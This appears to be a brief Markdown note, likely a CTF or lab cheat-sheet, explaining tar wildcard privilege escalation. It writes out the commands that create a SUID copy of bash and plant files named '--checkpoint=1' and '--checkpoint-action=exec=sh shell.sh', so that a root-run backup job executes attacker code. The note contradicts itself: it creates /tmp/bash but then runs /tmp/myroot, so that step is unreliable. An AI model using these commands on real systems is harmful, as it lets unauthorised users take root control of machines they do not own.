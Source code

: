# Wildcard escalation

---

- Create a shell.sh file that would create a copy of /bin/bash and set its SUID bit. So, as the job is being run by root a copy of root's bash would be created.
  ```bash
  echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > /home/andre/backup/shell.sh
  ```
  - Make the ***shell.sh*** executable
 
 -Create checkpoint files 
  ```bash
touch /home/andre/backup/--checkpoint=1
#and
touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh
  ```
  
- Execute the file - `/tmp/myroot -p`
> ***-p is very imp***